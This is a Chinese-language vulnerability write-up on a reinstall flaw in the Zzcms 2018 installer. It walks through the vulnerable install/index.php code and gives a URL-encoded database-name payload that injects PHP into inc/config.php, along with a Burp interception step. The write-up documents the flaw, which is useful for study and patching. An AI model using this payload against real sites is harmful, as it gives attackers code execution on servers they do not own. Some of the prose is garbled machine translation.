



Zzcms 2018 最新版重装getshell
=============================

一、漏洞简介
------------

源码信息：Zzcms 2018

问题文件： \\zzcms\\install\\index.php

漏洞类型：重装getshell

站点地址：<http://www.zzcms.net/>

二、漏洞影响
------------

Zzcms2018

三、复现过程
------------

### 0x01攻击分析

在文件\\ zzcms \\ install \\ index.php文件的第9-10行中\$
\_POST使用了提取变量注册的方法进行变量的初始化。

    if($_POST) extract($_POST, EXTR_SKIP);//把数组中的键名直接注册为了变量。就像把$_POST[ai]直接注册为了$ai。
    if($_GET) extract($_GET, EXTR_SKIP);
    $submit = isset($_POST['submit']) ? true : false;
    $step = isset($_POST['step']) ? $_POST['step'] : 1;

分析代码可以知道，setp为空的时候，初始化初始化的变量1，然后进入到step\_1.php，有install.lock，就不能重装，所以我们这里直接POST
step = 2绕过

    <?php
    switch($step) {
            case '1'://协议
                    include 'step_'.$step.'.php';
            break;
            case '2'://环境
                    $pass = true;
                    $PHP_VERSION = PHP_VERSION;
                    if(version_compare($PHP_VERSION, '4.3.0', '<')) {
                            $php_pass = $pass = false;
                    } else {
                            $php_pass = true;
                    }
                    $PHP_MYSQL = '';
                    if (extension_loaded('mysqli') || extension_loaded('mysql')) {
                            $PHP_MYSQL = '支持';
                            $mysql_pass = true;
                    } else {
                            $PHP_MYSQL = '不支持';
                            $mysql_pass = $pass = false;
                    }
            $PHP_GD = '';
            if(function_exists('imagejpeg')) $PHP_GD .= 'jpg';
            if(function_exists('imagegif')) $PHP_GD .= ' gif';
            if(function_exists('imagepng')) $PHP_GD .= ' png';
                    if($PHP_GD) {
                            $gd_pass = true;
                    } else {
                            $gd_pass = false;
                    }
                    $PHP_URL = @get_cfg_var("allow_url_fopen");//是否支持远程URL，采集有用
                    $url_pass = $PHP_URL ? true : false;
                    include 'step_'.$step.'.php';
            break;
            case '3'://查目录属性
                    include 'step_'.$step.'.php';
            break;
            case '4'://建数据库
                    include 'step_'.$step.'.php';
            break;
            case '5'://安装进度
                    function dexit($msg) {
                            echo '';
                            exit;
                    }

                    $conn=connect($db_host,$db_user,$db_pass,'',$db_port);
                    if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
                    $db_name or dexit('请填写数据库名');
                    if(!select_db($db_name)) {
                            if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
                    }
                    $url=str_replace("'",'',$url);
                    //保存配置文件
                    $fp="../inc/config.php";
                    $f = fopen($fp,'r');
                    $str = fread($f,filesize($fp));
                    fclose($f);
                    $str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
                    $str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
                    $str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
                    $str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
                    $str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
                    $str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
                    $str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
                    $f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
                    fputs($f,$str);//把替换后的内容写入文件
                    fclose($f);
                    //创建数据
                    include 'step_'.$step.'.php';
                    break;
            case '6'://安装成功
                    include 'step_'.$step.'.php';
            break;
    }

    <?php
    if(@$step==3){
    $token = md5(uniqid(rand(), true));    
    $_SESSION['token']= $token; 
    ?>

step\_3.php文件中有一个创建的令牌，后面创建数据库的时候验证，所以从步骤=
2，一步一步偶。

从上面的代码文中知道\$ url = str\_replace（"\'"，"，\$ url）;
把单引号替换为空了，然后的fputs写INC /
config.php的配置文件中所以这里通过\$ DB\_NAME来写到配置文件。

### 0×02复漏洞现

在数据库配置页面，数据库名填写：

zzcms%27%29%3bphpinfo%28%29%3b%2f%2f
本机创建zzcms\');phpinfo();//的数据库

因为本地有JS验证，所以先把数据库名改成123，bp抓到包以后在修改成zzcms%27%29%3bphpinfo%28%29%3b%2f%2f

成功写入到配置文件

image
